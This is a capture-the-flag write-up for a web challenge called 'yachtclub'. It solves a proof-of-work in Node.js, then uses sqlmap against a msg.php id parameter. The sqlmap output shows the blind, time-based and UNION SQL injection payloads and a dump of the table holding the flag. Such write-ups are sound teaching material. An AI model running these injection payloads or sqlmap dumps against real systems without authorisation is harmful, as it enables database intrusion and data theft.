


# yachtclub (web)

# Challenge description:

From finding that one vulnerability to exploiting it, there is an entirely new science behind it.

Flag format: UNR{xxxx-xxxx...}

# Flag proof:

> UNR{65lpfq-ledl5y-akac7d-nldamn-yjyst5-lbe65i-n55wfj-qmkdcu}

# Summary:

The page has a form where you can submit an invitation request. You need the mail, message and a proof of work. Once the invitation is submitted, we see a new page called `msg.php` vulnerable to sql injection

# Details:

The front page only links to an invite page:


The invite page allows you to submit a form, but we need a proof of work:



A quick search in the inspector reveals a JavaScript code that seems to be the pow:

```jsx
function buf2hex(buffer) {
  return [...new Uint8Array(buffer)]
    .map((v) => v.toString(16).padStart(2, "0"))
    .join("");
}

async function sha256(msg) {
  msg = new TextEncoder().encode(msg);
  const result = await crypto.subtle.digest("SHA-256", msg);
  return buf2hex(result);
}

async function pow(num_a, match) {
  for (let i = 0; i < 1e5; i++) {
    const hash = await sha256(num_a * i);
    if (hash === match) {
      return i.toString();
    }
  }

  return null;
}
```

The `num_a` and the `match` are found in the data attributes of the pow field and seem to be different with each request:

```html
<input
  type="pow"
  name="pow"
  id="pow"
  class="form-control"
  placeholder="???"
  data-num-a="44146"
  data-hash="b1dc8fbe56d4a73843c6b3501dc28c50b58e12e861204664e6fe4865d5360467"
/>
```

If we try to execute the code in the console, we get an error:

```jsx
Uncaught TypeError: Cannot read properties of undefined (reading 'digest')
    at sha256 (contact.php:64)
    at pow (contact.php:70)
    at <anonymous>:1:7
```

because the site isn't configured for https. But we can adapt the sha256 function using the `crypto` module in node:

```jsx
const sha256 = (msg) =>
  require("crypto").createHash("sha256").update(msg.toString()).digest("hex");
function pow(num_a, match) {
  for (let i = 0; i < 1e5; i++) {
    const hash = sha256(num_a * i);
    if (hash === match) {
      return i.toString();
    }
  }

  return null;
}
```

And we call `pow` with the values in the field:

```jsx
> pow(44146, "b1dc8fbe56d4a73843c6b3501dc28c50b58e12e861204664e6fe4865d5360467")
'30945'
```

We try to submit the form:


And we get a pending request:




and a new path: `/msg.php?id=492`

Trying another id does not work, so maybe it's some sql injection. Let's use sqlmap:

```bash
➜  ~ sqlmap -u "http://34.141.72.235:30022/msg.php?id=492"
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.5.12#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:35:06 /2021-12-06/

[14:35:06] [INFO] resuming back-end DBMS 'mysql'
[14:35:06] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=8a875cc270b...f5065155ad'). Do you want to use those [Y/n] y
[14:35:13] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: id=(SELECT (CASE WHEN (5183=5183) THEN 1 ELSE (SELECT 9493 UNION SELECT 9924) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 8766 FROM (SELECT(SLEEP(5)))BLIA)

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x717a706a71,0x5841494f6364676d6c596b4f4f764c4b716d63724d6a7658644d486b41797477734a6a684a584944,0x716a6b6271),NULL,NULL-- -
---
[14:35:13] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.51, PHP, PHP 7.4.26
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[14:35:13] [INFO] fetched data logged to text files under '/Users/toma/.local/share/sqlmap/output/34.141.72.235'

[*] ending @ 14:35:13 /2021-12-06/
```

Looks like the target is vulnerable to sql injection

Let's list the tables:

```bash
➜  ~ sqlmap -u "http://34.141.72.235:30022/msg.php?id=492" --tables
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.5.12#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:36:36 /2021-12-06/

[14:36:36] [INFO] resuming back-end DBMS 'mysql'
[14:36:36] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=de04efe5094...62be66554b'). Do you want to use those [Y/n] y
[14:36:39] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: id=(SELECT (CASE WHEN (5183=5183) THEN 1 ELSE (SELECT 9493 UNION SELECT 9924) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 8766 FROM (SELECT(SLEEP(5)))BLIA)

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x717a706a71,0x5841494f6364676d6c596b4f4f764c4b716d63724d6a7658644d486b41797477734a6a684a584944,0x716a6b6271),NULL,NULL-- -
---
[14:36:39] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP, PHP 7.4.26, Apache 2.4.51
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[14:36:39] [INFO] fetching database names
[14:36:39] [INFO] fetching tables for databases: 'unr21s2-individual-yachtclub, information_schema'
Database: information_schema
[79 tables]
+---------------------------------------+
| ALL_PLUGINS                           |
| APPLICABLE_ROLES                      |
| CHARACTER_SETS                        |
| CHECK_CONSTRAINTS                     |
| CLIENT_STATISTICS                     |
| COLLATIONS                            |
| COLLATION_CHARACTER_SET_APPLICABILITY |
| COLUMNS                               |
| COLUMN_PRIVILEGES                     |
| ENABLED_ROLES                         |
| ENGINES                               |
| EVENTS                                |
| FILES                                 |
| GEOMETRY_COLUMNS                      |
| GLOBAL_STATUS                         |
| GLOBAL_VARIABLES                      |
| INDEX_STATISTICS                      |
| INNODB_BUFFER_PAGE                    |
| INNODB_BUFFER_PAGE_LRU                |
| INNODB_BUFFER_POOL_STATS              |
| INNODB_CMP                            |
| INNODB_CMPMEM                         |
| INNODB_CMPMEM_RESET                   |
| INNODB_CMP_PER_INDEX                  |
| INNODB_CMP_PER_INDEX_RESET            |
| INNODB_CMP_RESET                      |
| INNODB_FT_BEING_DELETED               |
| INNODB_FT_CONFIG                      |
| INNODB_FT_DEFAULT_STOPWORD            |
| INNODB_FT_DELETED                     |
| INNODB_FT_INDEX_CACHE                 |
| INNODB_FT_INDEX_TABLE                 |
| INNODB_LOCKS                          |
| INNODB_LOCK_WAITS                     |
| INNODB_METRICS                        |
| INNODB_SYS_COLUMNS                    |
| INNODB_SYS_FIELDS                     |
| INNODB_SYS_FOREIGN                    |
| INNODB_SYS_FOREIGN_COLS               |
| INNODB_SYS_INDEXES                    |
| INNODB_SYS_TABLES                     |
| INNODB_SYS_TABLESPACES                |
| INNODB_SYS_TABLESTATS                 |
| INNODB_SYS_VIRTUAL                    |
| INNODB_TABLESPACES_ENCRYPTION         |
| INNODB_TRX                            |
| KEYWORDS                              |
| KEY_CACHES                            |
| KEY_COLUMN_USAGE                      |
| OPTIMIZER_TRACE                       |
| PARAMETERS                            |
| PARTITIONS                            |
| PLUGINS                               |
| PROCESSLIST                           |
| PROFILING                             |
| REFERENTIAL_CONSTRAINTS               |
| ROUTINES                              |
| SCHEMATA                              |
| SCHEMA_PRIVILEGES                     |
| SESSION_STATUS                        |
| SESSION_VARIABLES                     |
| SPATIAL_REF_SYS                       |
| SQL_FUNCTIONS                         |
| STATISTICS                            |
| SYSTEM_VARIABLES                      |
| TABLES                                |
| TABLESPACES                           |
| TABLE_CONSTRAINTS                     |
| TABLE_PRIVILEGES                      |
| TABLE_STATISTICS                      |
| THREAD_POOL_GROUPS                    |
| THREAD_POOL_QUEUES                    |
| THREAD_POOL_STATS                     |
| THREAD_POOL_WAITS                     |
| TRIGGERS                              |
| USER_PRIVILEGES                       |
| USER_STATISTICS                       |
| VIEWS                                 |
| user_variables                        |
+---------------------------------------+

Database: unr21s2-individual-yachtclub
[1 table]
+---------------------------------------+
| message                               |
+---------------------------------------+

[14:36:39] [INFO] fetched data logged to text files under '/Users/toma/.local/share/sqlmap/output/34.141.72.235'

[*] ending @ 14:36:39 /2021-12-06/
```

We see an interesting `message` table in the `unr21s2-individual-yachtclub` database

```bash
➜  ~ sqlmap -u "http://34.141.72.235:30022/msg.php?id=492" --tables --search -T message
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.5.12#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:42:52 /2021-12-06/

[14:42:52] [INFO] resuming back-end DBMS 'mysql'
[14:42:52] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=3a9ca93a1ff...bc862a458d'). Do you want to use those [Y/n] y
[14:42:54] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: id=(SELECT (CASE WHEN (5183=5183) THEN 1 ELSE (SELECT 9493 UNION SELECT 9924) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 8766 FROM (SELECT(SLEEP(5)))BLIA)

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x717a706a71,0x5841494f6364676d6c596b4f4f764c4b716d63724d6a7658644d486b41797477734a6a684a584944,0x716a6b6271),NULL,NULL-- -
---
[14:42:54] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.51, PHP 7.4.26, PHP
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[14:42:54] [INFO] fetching database names
[14:42:54] [INFO] fetching tables for databases: 'unr21s2-individual-yachtclub, information_schema'
Database: information_schema
[79 tables]
+---------------------------------------+
| ALL_PLUGINS                           |
| APPLICABLE_ROLES                      |
| CHARACTER_SETS                        |
| CHECK_CONSTRAINTS                     |
| CLIENT_STATISTICS                     |
| COLLATIONS                            |
| COLLATION_CHARACTER_SET_APPLICABILITY |
| COLUMNS                               |
| COLUMN_PRIVILEGES                     |
| ENABLED_ROLES                         |
| ENGINES                               |
| EVENTS                                |
| FILES                                 |
| GEOMETRY_COLUMNS                      |
| GLOBAL_STATUS                         |
| GLOBAL_VARIABLES                      |
| INDEX_STATISTICS                      |
| INNODB_BUFFER_PAGE                    |
| INNODB_BUFFER_PAGE_LRU                |
| INNODB_BUFFER_POOL_STATS              |
| INNODB_CMP                            |
| INNODB_CMPMEM                         |
| INNODB_CMPMEM_RESET                   |
| INNODB_CMP_PER_INDEX                  |
| INNODB_CMP_PER_INDEX_RESET            |
| INNODB_CMP_RESET                      |
| INNODB_FT_BEING_DELETED               |
| INNODB_FT_CONFIG                      |
| INNODB_FT_DEFAULT_STOPWORD            |
| INNODB_FT_DELETED                     |
| INNODB_FT_INDEX_CACHE                 |
| INNODB_FT_INDEX_TABLE                 |
| INNODB_LOCKS                          |
| INNODB_LOCK_WAITS                     |
| INNODB_METRICS                        |
| INNODB_SYS_COLUMNS                    |
| INNODB_SYS_FIELDS                     |
| INNODB_SYS_FOREIGN                    |
| INNODB_SYS_FOREIGN_COLS               |
| INNODB_SYS_INDEXES                    |
| INNODB_SYS_TABLES                     |
| INNODB_SYS_TABLESPACES                |
| INNODB_SYS_TABLESTATS                 |
| INNODB_SYS_VIRTUAL                    |
| INNODB_TABLESPACES_ENCRYPTION         |
| INNODB_TRX                            |
| KEYWORDS                              |
| KEY_CACHES                            |
| KEY_COLUMN_USAGE                      |
| OPTIMIZER_TRACE                       |
| PARAMETERS                            |
| PARTITIONS                            |
| PLUGINS                               |
| PROCESSLIST                           |
| PROFILING                             |
| REFERENTIAL_CONSTRAINTS               |
| ROUTINES                              |
| SCHEMATA                              |
| SCHEMA_PRIVILEGES                     |
| SESSION_STATUS                        |
| SESSION_VARIABLES                     |
| SPATIAL_REF_SYS                       |
| SQL_FUNCTIONS                         |
| STATISTICS                            |
| SYSTEM_VARIABLES                      |
| TABLES                                |
| TABLESPACES                           |
| TABLE_CONSTRAINTS                     |
| TABLE_PRIVILEGES                      |
| TABLE_STATISTICS                      |
| THREAD_POOL_GROUPS                    |
| THREAD_POOL_QUEUES                    |
| THREAD_POOL_STATS                     |
| THREAD_POOL_WAITS                     |
| TRIGGERS                              |
| USER_PRIVILEGES                       |
| USER_STATISTICS                       |
| VIEWS                                 |
| user_variables                        |
+---------------------------------------+

Database: unr21s2-individual-yachtclub
[1 table]
+---------------------------------------+
| message                               |
+---------------------------------------+

do you want sqlmap to consider provided table(s):
[1] as LIKE table names (default)
[2] as exact table names
>
[14:42:57] [INFO] searching tables LIKE 'message'
Database: unr21s2-individual-yachtclub
[1 table]
+---------+
| message |
+---------+

do you want to dump found table(s) entries? [Y/n]
which database(s)?
[a]ll (default)
[unr21s2-individual-yachtclub]
[q]uit
>
which table(s) of database 'unr21s2-individual-yachtclub'?
[a]ll (default)
[message]
[s]kip
[q]uit
>
[14:42:58] [INFO] fetching columns for table 'message' in database 'unr21s2-individual-yachtclub'
[14:42:58] [INFO] fetching entries for table 'message' in database 'unr21s2-individual-yachtclub'
Database: unr21s2-individual-yachtclub
Table: message
[1 entry]
+----+---------+--------+---------+--------------------------------------------------------------+
| id | email   | user   | message | specialflag                                                  |
+----+---------+--------+---------+--------------------------------------------------------------+
| 1  | <blank> | 0      | <blank> | UNR{65lpfq-ledl5y-akac7d-nldamn-yjyst5-lbe65i-n55wfj-qmkdcu} |
+----+---------+--------+---------+--------------------------------------------------------------+

[14:42:58] [INFO] table '`unr21s2-individual-yachtclub`.message' dumped to CSV file '/Users/toma/.local/share/sqlmap/output/34.141.72.235/dump/unr21s2-individual-yachtclub/message.csv'
[14:42:58] [INFO] fetched data logged to text files under '/Users/toma/.local/share/sqlmap/output/34.141.72.235'

[*] ending @ 14:42:58 /2021-12-06/
```

And we got the flag!
